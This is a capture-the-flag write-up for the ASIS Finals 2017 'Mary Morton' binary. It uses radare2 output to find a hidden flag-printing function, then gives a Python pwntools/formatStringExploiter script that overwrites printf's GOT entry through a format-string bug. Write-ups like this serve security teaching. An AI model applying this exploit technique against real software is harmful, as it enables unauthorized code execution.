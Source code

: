 # ASIS Finals 2017: Mary Morton
## **[Principle]**
format string
## **[Purpose]**
Master the general process of PWN topics
## **[Environment]**
Ubuntu
## **[Tools]**
gdb、objdump、python
## **[Process]**

### Overview

The Mary Morton ASIS challenge was designed to be simple. In doing so, they provide the CTFer with two options. The first, a stack overflow. The second, a format string vulnerability. While my guess is the intended solution was to use the format string vulnerability to leak the stack canary so that you could use the buffer overflow, `formatStringExploiter` makes using only the format string vulnerability for a win very easy. In this case, I only used the format string vulnerability and a couple lines of python to solve it.

Example:

```bash
$ ./mary_morton
Welcome to the battle !
[Great Fairy] level pwned
Select your weapon
1. Stack Bufferoverflow Bug
2. Format String Bug
3. Exit the battle
2
%x
224dc6b0
1. Stack Bufferoverflow Bug
2. Format String Bug
3. Exit the battle
1
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
-> AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA

*** stack smashing detected ***: ./mary_morton terminated
Aborted (core dumped)
```

### The Vulnerability

As stated before, the user is allowed to chose a vulnerability they wish to use and then use it in a strait forward manner. Using `checksec`, we notice that this binary is 64-bit and utilizes partial relro. This means that we have the ability to overwrite the `GOT` table. Further, since hardening techniques have not been enabled, we are able to use `%n`, which is key for enabling format string to overwrite the `GOT` entry.

The next question is generally, what do I overwrite and what do i overwrite that with? Well, a look at the strings of this binary provides a good target.:

```
[0x00400960]> iz
vaddr=0x00400ad4 paddr=0x00000ad4 ordinal=000 sz=25 len=24 section=.rodata type=ascii string=Welcome to the battle !
vaddr=0x00400aed paddr=0x00000aed ordinal=001 sz=27 len=26 section=.rodata type=ascii string=[Great Fairy] level pwned
vaddr=0x00400b08 paddr=0x00000b08 ordinal=002 sz=20 len=19 section=.rodata type=ascii string=Select your weapon
vaddr=0x00400b1f paddr=0x00000b1f ordinal=003 sz=5 len=4 section=.rodata type=ascii string=Bye
vaddr=0x00400b24 paddr=0x00000b24 ordinal=004 sz=7 len=6 section=.rodata type=ascii string=Wrong!
vaddr=0x00400b2b paddr=0x00000b2b ordinal=005 sz=16 len=15 section=.rodata type=ascii string=/bin/cat ./flag
vaddr=0x00400b3b paddr=0x00000b3b ordinal=006 sz=7 len=6 section=.rodata type=ascii string=-> %s\n
vaddr=0x00400b42 paddr=0x00000b42 ordinal=007 sz=29 len=28 section=.rodata type=ascii string=1. Stack Bufferoverflow Bug
vaddr=0x00400b5f paddr=0x00000b5f ordinal=008 sz=22 len=21 section=.rodata type=ascii string=2. Format String Bug
vaddr=0x00400b75 paddr=0x00000b75 ordinal=009 sz=20 len=19 section=.rodata type=ascii string=3. Exit the battle
```

So "/bin/cat ./flag" seems like something we want to do. Let’s find the code.:

```
[0x004008da]> /r 0x00400b2b
[0x00400c98-0x0060109f] data 0x4008de mov edi, str._bin_cat_._flag in fcn.004008da
```

Going back a little, we find the hidden function.:

```
│           0x004008da      55             push rbp
│           0x004008db      4889e5         mov rbp, rsp
│           0x004008de      bf2b0b4000     mov edi, str._bin_cat_._flag ; 0x400b2b ; "/bin/cat ./flag"
│           0x004008e3      e8b8fdffff     call sym.imp.system         ; int system(const char *string)
│           0x004008e8      90             nop
│           0x004008e9      5d             pop rbp
└           0x004008ea      c3             ret
```

So we can probably agree that `0x004008da` is our target for this overwrite.


### Step 1: exec_fmt

The first step in using the `FormatString` class is to create an exec_fmt function. This function will take in any arbitrary input, pass that input into the application properly, parse the results and return the results back. At this point, we’re not worried about exploiting the vulnerability, we’re simply interacting with the program.

```py
def exec_fmt(s):
    p.sendline("2")
    sleep(0.1)
    p.sendline(s)
    ret = p.recvuntil("1. Stack Bufferoverflow Bug",drop=True)
    p.recvuntil("Exit the battle \n")
    return ret
```
Step 2: Instantiate Class

Next, we need to instantiate a FormatString class. This can be done strait forward. To make it simpler, we’ll also open an `ELF` class on the exe.

```py
from formatStringExploiter.FormatString import FormatString
from pwn import *

# Load the binary in pwntools. This way we don't need to worry about the
# details, just pass it to FormatString
elf = ELF("./mary_morton")

# Now, instantiate a FormatString class, using the elf and exec_fmt functions
fmtStr = FormatString(exec_fmt,elf=elf)
```

You will see some data scroll. This is the FormatString class attempting to discover your buffer for you. Finally, you’ll see something like this:

```
Found the offset to our input! Index = 6, Pad = 0
```

Good to go now. It has found the buffer, we can simply ask the class to perform actions for us now. However, let’s make this a little faster. The challenge binary has a 20 second timeout. We don’t want to waste time finding the same index and exploring the stack each time. Thus, since we already know the index, let’s just tell `formatStringExploiter` what it is ahead of time. The above code simply becomes:

```py
from formatStringExploiter.FormatString import FormatString
from pwn import *

# Load the binary in pwntools. This way we don't need to worry about the
# details, just pass it to FormatString
elf = ELF("./mary_morton")

# Now, instantiate a FormatString class, using the elf and exec_fmt functions
fmtStr = FormatString(exec_fmt,elf=elf,index=6,pad=0,explore_stack=False)
```

Now, our load time for this will be effectively none.

### Step 3: Read the flag

We now have a functional and initialize `FormatString` class. We also know what function we want to call. Lets pick some function to overwrite. Since our target function doesn’t take input, it could be almost anything. We’ll just choose `printf` for the sake of simplicity. Our exploit then, looks like this:

```py
# The function that prints the flag
winner = 0x4008DA

# Connect up
connect()

# Instantiate the format string with known values
fmtStr = FormatString(exec_fmt,elf=elf,index=6,pad=0,explore_stack=False)

# Ask our format string to overwrite the printf GOT entry with our function
fmtStr.write_q(elf.symbols['got.printf'], winner)

# Hit enter and our flag should be printed out.
p.sendline("2")
p.interactive()

# ASIS{An_impROv3d_v3r_0f_f41rY_iN_fairy_lAnds!}
```

That’s it. Your flag is printed. If this were the CTF, you could change process to remote and run it again to grab the flag.


## **[Summary]**
